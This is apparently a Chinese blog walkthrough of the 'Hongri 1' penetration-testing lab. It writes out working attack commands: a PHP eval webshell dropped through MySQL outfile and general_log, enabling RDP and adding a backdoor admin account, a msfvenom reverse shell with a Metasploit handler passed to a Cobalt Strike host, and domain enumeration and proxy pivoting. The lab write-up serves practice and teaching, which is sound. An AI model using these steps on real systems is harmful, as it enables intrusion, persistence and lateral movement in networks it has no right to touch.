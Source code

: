 # 红日1靶场(一)

搭建环境过程省略

拓扑图
ip

dc 192.168.52.141

成员 192.168.52.138

web 192.168.72.4 192.168.52.143



### 信息收集

2.1扫描主机

```
netdiscover
```



![image-20200812155453582](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200812155453582.png)

2.2探测端口

```
nmap -sC -sV -Pn -p 1-65525 192.168.72.4          //-sC根据端口识别服务 -sV版本探测 -Pn不检测主机存活 -p扫描指定端口
```

![image-20200812155928191](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200812155928191.png)

2.3打开发现一个php探针模块 滑到最下面 发现可以连接mysql数据库 默认密码 root root

另外还有一个,也可以尝试getshell,这个地方需要爆破后台之后 ,通过后台才可以getshell

http://192.168.72.4/yxcms/index.php?r=admin/index/index

![image-20200812160516081](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200812160516081.png)

![image-20200812160756335](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200812160756335.png)

![image-20200812160733487](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200812160733487.png)

2.4利用phpadmin getshell 有两种方法into outfile 和 利用日志文件写入

第一种 利用条件 需要知道网站绝对路径 和root权限 [其实方法是对的,鉴于mysql的新特性而言等会补充]

```sql
select  '<?php eval($_POST[cmd]); ?>'  into outfile  'C:/phpStudy/WWWshell.php';
```

提示这个

![image-20200813083217060](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200813083217060.png)

第二种利用mysql日志写入

```mysql
#查看日志状态
show variables  like  '%general%';
#这里解释一下,当开启general时,所执行的sql语句就会生成对应的文件中
SET GLOBAL general_log='on'
SET GLOBAL general_log_file='C:/phpStudy/www/233.php'
SELECT '<?php eval($_POST["cmd"]);?>'
```

![img](https://mmbiz.qpic.cn/mmbiz_png/ddqrZtAEBOiaW4QMLSzMxVTk7RcjliaATzpOFVmVia9x0kf4tVjNoIic35OxTicDgXmNOhR7I992B4eRqRQutw9IjkQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

**![image-20200813100723299](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200813100723299.png)**

2.5这里我们已经getshell并连接上了.开始一波内网信息收集

![image-20200813102958077](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200813102958077.png)

2.5因为是练习,我们在尝试一下第二种getshell的方法



# 内网渗透

3.1尝试远程登录

查看当前用户权限,如果渗透进去发现是Windows系统的话,首先尝试连接他的远程桌面,所以再看一下3389端口开放情况

![image-20200813103313458](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200813103313458.png)

```shell
#运行下面的命令,有回显说明打开的,没有回显说明关闭的
netstat -an | find "3389"
#运行下面的命令,打开3389端口,八个0是打开 八个一是关闭
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

```

3.2添加一条用户,尝试利用3389远程登录--发现连接不上,估计和防火墙,有关系,可能有白名单也说不定

```powershell
net user test 1234.com /add
net localgroup administrators test /add
net user test
```

![image-20200813104338630](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200813104338630.png)

![image-20200813104945055](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200813104945055.png)

3.3使用msf制作木马利用webshell上传执行

```bash
#制作木马
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.72.12 LPORT=7521 -f exe > msf.exe
#msf反弹shell
msf5 > use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.72.5
msf5 exploit(multi/handler) > set lport 7521
msf5 exploit(multi/handler) > exploit 
#msf和cs联动 cs就会接受到shell
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set DisablePayloadHandler true 
set lhost 120.92.211.101
set lport 80
set session 1
exploit 

```

![image-20200814201541186](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814201541186.png)

![image-20200814201811713](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814201811713.png)

![image-20200814201939532](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814201939532.png)

3.4 利用cs打开beacon界面 输入命令--思路差不多就是 域是什么 域里面几个用户 域几台主机 域控是谁 webIp

```powershell
#内网信息收集常用命令
net time /domain        #查看时间服务器，判断主域，主域服务器都做时间服务器
net user /domain        #查看域用户
net view /domain        #查看有几个域
ipconfig /all 　　　　　  #查询本机IP段，所在域等 
net config Workstation  #当前计算机名，全名，用户名，系统版本，工作站域，登陆域 
net user 　　　　　　　   #本机用户列表
net group "domain computers" /domain   #查看域内所有的主机名 
net group "domain admins" /domain      #查看域管理员 
net group "domain controllers" /domain #查看域控
net localhroup administrators          #本机管理员[通常含有域用户]
net user 用户名 /domain                 #获取指定用户的账户信息  
net group /domain                      #查询域里面的工作组 
net group 组名 /domain                  #查询域中的某工作组

```

```
域 owa.god.org
域中用户 administrator ligang liukaifeng01 
域中主机 
域控是 owa 192.168.52.138 主机有三台 
自己ip 192.168.72.4 192.168.52.142
```

![image-20200814202248739](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814202248739.png)

![image-20200814202515714](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814202515714.png)

# 三 横向移动

​    因为我们目前就只拿下了外网,我们的最终目标是拿下域控

3.1添加路由

```
meterpreter > run autoroute -s 192.168.52.0/24

```

![image-20200814210553057](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814210553057.png)

3.2添加代理步骤

```
use auxiliary/server/socks4a
run
编辑配置文件
vim /etc/proxychains.conf
#可以这样测试一下,不建议用ping 可能ping不通
msf5 auxiliary(server/socks4a) > proxychains curl http://192.168.52.143

```

![image-20200814210926814](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814210926814.png)

![image-20200814211154891](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814211154891.png)

3.3开始对内网主机渗透

```
因为信息收集的时候内网是加上外网这台主机,有三台主机下面先对141这台主机一个渗透测试
(1)先扫描一下
msf5 auxiliary(server/socks4a) > proxychains nmap -p 1-1000 -Pn -sT 192.168.52.141
(2)开放了445端口 使用利用 扫描系统版本,发现是2003
use auxiliary/scanner/smb/smb_version

```

![image-20200814230443797](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814230443797.png)

![image-20200814230924286](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814230924286.png)

